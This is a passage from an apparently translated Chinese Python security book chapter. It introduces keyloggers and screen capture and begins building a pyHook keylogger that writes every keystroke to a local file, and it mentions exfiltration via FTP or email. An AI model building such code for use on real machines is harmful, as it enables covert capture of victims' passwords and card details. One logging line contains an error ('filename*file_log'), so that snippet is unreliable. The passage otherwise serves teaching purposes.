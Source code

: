 # 第八章：键盘记录和屏幕截取

使用 Python，我们可以以编程方式执行诸如捕获所有按键、捕获屏幕、记录正在运行的程序、关闭它们、监视剪贴板内容等任务。黑客可能使用这些技术恶意获取受害者的私人信息，而雇主可能使用它们来监视员工的活动。

本章涵盖的主题如下：

+   使用 Python 进行键盘记录

+   屏幕截取

# 键盘记录器

**键盘记录器**是一种实时记录按键的软件或硬件设备。它们用于解决计算机和网络的技术问题。它们也可以用于在没有直接知识的情况下监视人们的网络和计算机使用情况。因此，这也可以在公共计算机上被滥用来窃取密码或信用卡信息。

## 硬件键盘记录器

基于硬件的键盘记录器可以在没有安装任何软件的情况下监视受害者的活动。它们可以很容易地被检测到，因为它是一个物理设备，可能连接在计算机键盘和 USB/PS2 端口之间的某个地方。还有更先进的硬件键盘记录器，它们在外部不可见，也不依赖于任何软件。因此，它们无法被任何软件检测到。但是，硬件键盘记录器需要对受害者进行物理访问。

对于无线键盘，可以拦截从键盘发送到其接收器的信号，使用无线嗅探器。

## 软件键盘记录器

使用软件键盘记录器，我们可以从远程系统提供对本地记录的按键的访问。这可以通过将记录的按键上传到数据库或 FTP 服务器来实现。我们还可以定期将其作为电子邮件附件发送。

# 使用 pyhook 的键盘记录器

要创建一个简单的键盘记录器脚本来记录计算机上的按键活动并将其存储在文本文件中，我们可以使用`pyhook`模块。这将为 Windows 系统提供全局鼠标和键盘事件的回调。

导入所需的模块。在这里，我们从 ActivePython Package 导入`pyhook`和 pythoncom 模块。`pythoncom`模块在此脚本中用于为当前线程传递所有消息：

```py
import pyHook, pythoncom, sys, logging 

```

定义保存日志数据的文件。 （Windows 文件名使用反斜杠作为分隔符。但是，在 Python 中，反斜杠是一个转义字符，所以我们必须在路径中放置双斜杠`\\`。否则，我们可以使用原始字符串来定义文件名。）：

```py
file_log='C:\\log.txt' 

```

现在我们可以定义处理每个键盘事件的函数。在这里，我们可以利用日志模块来记录每个字符：

```py
def OnKeyboardEvent(event): 
    logging.basicConfig(filename*file_log, level=logging.DEBUG, format='%(message)s') 
    chr(event.Ascii) 
    logging.log(10,chr(event.Ascii)) 
    return True 

```
